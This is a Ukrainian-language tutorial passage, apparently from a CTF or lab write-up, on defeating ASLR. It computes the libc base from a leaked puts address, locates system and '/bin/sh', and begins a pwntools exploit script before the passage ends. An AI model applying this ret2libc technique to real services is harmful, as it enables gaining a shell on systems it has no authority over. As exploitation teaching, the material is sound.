### Розв'язок:

**Крок 1: Формула зв'язку**
```
leaked_puts = libc_base + offset_puts
```

**Чому ця формула правильна?**
- ASLR рандомізує ТІЛЬКИ базову адресу
- Offset ВСЕРЕДИНІ libc незмінні
- Тому: реальна_адреса = база + фіксований_offset

**Крок 2: Розв'язуємо для libc_base**
```python
libc_base = leaked_puts - offset_puts
libc_base = 0x7ffff7a809c0 - 0x809c0
libc_base = 0x7ffff7a00000  ✓
```

**Перевірка (завжди робіть!):**
```python
# Останні 3 hex цифри мають бути 000
hex(libc_base)  # 0x7ffff7a00000  ← Закінчується на 000 ✓

# libc завжди вирівняна на PAGE_SIZE (зазвичай 0x1000)
libc_base & 0xfff == 0  # True ✓
```

**Крок 3: Знаходимо інші функції**
```python
# Offset system (з readelf):
offset_system = 0x50d70

# Реальна адреса system:
system_addr = libc_base + offset_system
system_addr = 0x7ffff7a00000 + 0x50d70
system_addr = 0x7ffff7a50d70  ✓
```

**Крок 4: Знаходимо рядки**
```python
# Offset "/bin/sh" (з strings + grep):
offset_binsh = 0x198e1a

# Реальна адреса "/bin/sh":
binsh_addr = libc_base + offset_binsh
binsh_addr = 0x7ffff7a00000 + 0x198e1a
binsh_addr = 0x7ffff7b98e1a  ✓
```

### Повна послідовність в exploit:

```python
from pwn import *

# Завантажуємо libc файл
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# Offset'и з файлу (автоматично):
offset_puts = libc.symbols['puts']      # 0x809c0
offset_system = libc.symbols['system']  # 0x50d70

# Leak від сервера
io.sendline(b'LEAK')
line = io.recvline()  # b'PUTS=0x7ffff7a809c0\n'
leaked_puts = int(line.split(b'=')[1], 16)

# Розрахунок бази
```